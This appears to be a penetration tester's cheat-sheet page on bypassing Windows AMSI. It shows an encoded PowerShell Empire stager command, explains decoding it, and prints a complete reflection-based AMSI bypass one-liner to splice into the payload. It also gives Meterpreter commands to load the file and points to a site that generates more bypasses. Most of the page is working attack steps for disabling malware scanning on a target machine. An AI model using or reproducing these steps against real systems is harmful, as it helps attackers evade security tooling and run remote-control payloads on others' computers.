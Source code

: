 # AMSI Bypasses

### AMSI Bypass with Powershell Empire

* This assumes you have access to a powershell prompt on the target machine
* Generate a stager, will look something like this:
* On empire must `set Bypasses None`

```
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBpAG8AbgBUAGEAYgBsAGUALgBQAFMAVgBlAHIAcwBpAG8AbgAuAE0AYQBqAG8AcgAgAC0
--snip--
```

* Take out the powershell so it is only base64 and decode, will look something like this

```
If($PSVersionTable.PSVersion.Major -ge 3){};[System.Net.ServicePointManager]::
--snip--
```

* Notice the `If($PSVersionTable.PSVersion.Major -ge 3){};`
* Take the AMSI Bypass below and input it in between `{ }` in the empire payload&#x20;

```
$s = [Ref].Assembly.GetTypes();ForEach($b in $s) {if ($b.Name -like "*iUtils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*Failed") {$f = $e}};$f.SetValue($null,$true);
```

* Save off to a file locally `check.ps1`&#x20;
* Paste contents into powershell prompt&#x20;

#### MSF Meterpreter way

* ```
  go to meterpreter and run:
  load powershell
  powershell_import /path/to/file/created.ps1
  ```

### AMSI Bypass without Additional Payload&#x20;

* Can generate many AMSI Bypassess on https://amsi.fail&#x20;
* Simply paste into powershell prompt.
* If successful AMSI is patched and the rest of your session will not be scanned by AMSI
